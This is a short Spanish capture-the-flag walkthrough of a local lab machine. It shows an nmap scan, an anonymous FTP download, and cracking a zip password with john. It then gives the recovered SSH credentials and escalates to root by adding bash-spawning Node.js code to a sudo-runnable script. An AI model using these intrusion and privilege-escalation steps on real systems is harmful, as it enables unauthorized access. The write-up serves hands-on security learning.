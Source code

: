 Fecha: 03/09/2024

Empiezo escaneando la máquina: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](Imágenes/Pasted%20image%2020240903180050.png)
Descargo el comprimido que se ubica en ftp:
```bash
wget ftp://172.17.0.2/secretitopicaron.zip
```

Necesita una contraseña, así que uso john de ripper para buscarla:
```bash
zip2john secretitopicaron.zip > ziphash.txt
john ziphash.zip                  
```
![](Imágenes/Pasted%20image%2020240903182308.png)
Conseguimos de esta manera un usuario (`mario`) y contraseña (`laKontraseñAmasmalotaHdelbarrioH`) para ssh. 
![](Imágenes/Pasted%20image%2020240903182512.png)

Lo primero que miro al entrar es qué podemos ejecutar con sudo, encontrando que podemos ejecutar un script de js, que podemos editar nosotros mismos:
![](Imágenes/Pasted%20image%2020240903182747.png)

Insertaré lo siguiente en el script y ya podré hacerme root:
```js
const { spawn } = require('child_process'); 

const shell = spawn('bash', { stdio: 'inherit', shell: true });
```

![](Imágenes/Pasted%20image%2020240903183243.png)
